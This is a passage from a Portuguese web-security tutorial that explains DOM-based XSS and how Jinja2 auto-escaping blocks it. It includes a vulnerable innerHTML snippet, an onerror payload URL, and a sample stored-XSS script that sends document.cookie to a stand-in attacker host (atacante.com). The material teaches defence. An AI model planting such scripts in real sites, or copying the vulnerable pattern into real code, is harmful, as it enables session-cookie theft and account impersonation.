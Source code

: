 #### 3. DOM-based XSS (Baseado em DOM)

O código malicioso manipula o **DOM** diretamente no navegador.

**Exemplo:**
```javascript
// JavaScript vulnerável:
let nome = document.location.hash.substring(1);
document.getElementById('saudacao').innerHTML = "Olá, " + nome;

// URL maliciosa:
// http://seusite.com/#<img src=x onerror="alert('XSS')">
```

### 💣 Exemplo de Ataque XSS Real

Imagine um site de perfis de usuários onde você pode adicionar uma "bio":

```html
<!-- Bio do usuário malicioso: -->
<script>
    // Rouba o cookie de sessão e envia para o atacante
    fetch('http://atacante.com/roubar?cookie=' + document.cookie);
</script>
```

Quando outro usuário visita o perfil, o script:
1. 🔓 Captura o cookie de sessão da vítima
2. 📤 Envia para o servidor do atacante
3. 🎭 O atacante agora pode se passar pela vítima!

### 🛡️ Como o Jinja2 Protege Contra XSS

Por padrão, o **Jinja2** escapa automaticamente todas as variáveis:

```html
<!-- Template Jinja2 -->
<p>{{ nome_usuario }}</p>

<!-- Se nome_usuario = "<script>alert('XSS')</script>" -->

<!-- Resultado SEGURO (escapado): -->
<p>&lt;script&gt;alert('XSS')&lt;/script&gt;</p>

<!-- O navegador exibe o texto literalmente, não executa o script -->
```

### 📊 Tabela de Escape Automático

| Caractere | Escapado para | Resultado |
|-----------|---------------|-----------|
| `<` | `&lt;` | `<` é exibido como texto |
| `>` | `&gt;` | `>` é exibido como texto |
| `"` | `&quot;` | `"` é exibido como texto |
| `'` | `&#39;` | `'` é exibido como texto |
| `&` | `&amp;` | `&` é exibido como texto |
